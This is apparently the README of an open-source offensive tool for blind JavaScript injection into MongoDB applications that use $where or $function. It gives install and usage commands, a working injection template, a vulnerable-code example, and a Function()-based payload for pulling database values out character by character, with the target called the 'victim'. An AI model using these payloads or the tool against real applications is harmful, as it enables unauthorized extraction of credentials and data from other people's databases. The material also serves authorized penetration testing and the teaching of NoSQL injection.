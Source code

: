 # MongoDB JS Injection CLI
**Interactive JS injection into MongoDB (NoSQL).**

This scripts allows you to easily list existing variables and print their values using blind JS injection (the only required output from the victim is some kind of true/false - by default it is error/no error).

![Injection CLI Showcase](showcase.gif)

## Installation
To install simply run:

```console
$ git clone https://github.com/brun0ne/mongodb-js-injection-cli
$ pip install -r requirements.txt
```

## Usage
```console
$ python3 mongo-injection-cli.py --help
usage: mongo-injection-cli.py [-h] [--login LOGIN] [--headers HEADERS] [--template TEMPLATE] [--field FIELD] [--method METHOD] [--error ERROR] url

CLI for JS injection into MongoDB

positional arguments:
  url                  ex: http://example.com/vulnerable/page

options:
  -h, --help           show this help message and exit
  --login LOGIN        authenticate before doing anything
                       ex: login:password@http://example.com/login-page
  --headers HEADERS    JSON file containing HTTP headers
  --template TEMPLATE  injection template
                       default: admin' && {test} ? Math : throwerrorplease ||'
  --field FIELD        parameter to inject to, default: username
  --method METHOD      HTTP method, default: GET
  --error ERROR        string for detecting when injected check returned false
                       default: Internal Server Error
```

## Examples
Default settings and provided **headers.json** file (put your session cookies there if needed):

```console
$ python3 mongo-injection-cli.py --headers headers.json http://example.com/vulnerable-page
```

Using **automatic login** with session (you probably have to edit the script to make it work):

```console
$ python3 mongo-injection-cli.py --login user:password@example.com/login http://example.com/vulnerable-page
```

Different **injection template**, **HTTP Method** and **vulnerable parameter**:

```console
$ python3 mongo-injection-cli.py --headers headers.json --method POST --field login --template <your template containing {test}> http://example.com/vulnerable-page
```
## How it works
JavaScript injection is possible when app using MongoDB insecurely uses [$where](https://www.mongodb.com/docs/manual/reference/operator/query/where/) or [$function](https://www.mongodb.com/docs/manual/reference/operator/aggregation/function/).

Vulnerable code might look similar to this:
```js
const query = { $where: `this.username === '${username}' && this.password === '${passToTest}'` };
```

This script (by default) injects into `username` parameter:
```js
admin' && ({test} ? Math : throwerrorplease) ||'
```

inserting into `{test}` the JavaScript expression we want to get **true/false** out of.

If it returned **true** we get a working page. **If not**, it tries to get `throwerrorplease` which doesn't exist, and throws some kind of **error we can detect**.

This way, if we test for:
```js
(Function("return (function(){ /* our code */ }).bind(this)()").call(this)).toString().startsWith("/* what we got so far + new character */")
```

we can extract values character by character, preserving `this` containing fields returned by the database (`this.username`, etc).

This script also has a built-in, prepended function `getAll(<object>)` which **returns a list of every method and attribute of the provided object** (also the inherited ones).


